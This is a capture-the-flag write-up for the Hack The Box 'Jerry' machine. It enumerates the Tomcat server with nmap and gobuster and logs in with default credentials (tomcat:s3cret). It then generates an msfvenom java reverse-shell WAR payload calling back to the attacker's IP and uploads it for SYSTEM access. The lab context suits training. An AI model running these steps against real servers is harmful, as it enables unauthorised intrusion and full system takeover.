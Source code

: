# Jerry
![info-card](./info_card.png)

## Initial Enumeration

Our initial enumeration doesn't leave much to the imagination here, our quick nmap scan only returns one open port.

```bash
nmap -sV 10.10.10.95
```

![Nmap Results](./nmap.png)

Naturally we assume Tomcat is our target for this box. On tomcat instances, you can reach the management console at `/manage`, but if you didn't know that already, you can find that using gobuster:

```bash
gobuster dir -u http://10.10.10.95:8080 -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -t 50
```

![Gobuster Results](./gobuster.png)

For the login we treat it like any other application, google for default credentials. Doing this brought me to a great github repository for default credentials where I found [this](https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown) page. Using the credentials `tomcat:s3cret` from that list gives us access. 

## Execution

Looking at the management console, we see something that catches our eye as a path to execution: 

![WAR Upload Form](./war_upload_form.png)

Know that we know we can deploy `war` files to the server, we can generate a reverse shell with `msfvenom`:

```bash
msfvenom -p java/shell_reverse_tcp LHOST=$(tunip) LPORT=4443 -f war > evil.war
```

{% hint %}
`tunip` is a handy bash alias I use to get my current IP address for Hack The Box. it is set to `ifconfig tun0 | sed -n '2 p' | awk '{print \$2}'` in my `~/.bash_aliases`
{% endhint %}

{% hint style="danger" %}
If you happen to work out of a folder shared between your kali VM and windows like I do, windows defender will nuke this file as soon as you generate it. So it's best to do this somewhere else (I just generated it in `/tmp`)
{% endhint %}

After uploading this file we can see it in the list of running applications:

![Evil War Application](./evil_war.png)

Clicking on the link to our malicious application triggers the reverse shell. It just happens that Tomcat is run as `nt authority/system` in this case, so we now have full access to the system and are able to read the user and root flags:

![User and Root Flags](./flags.png)
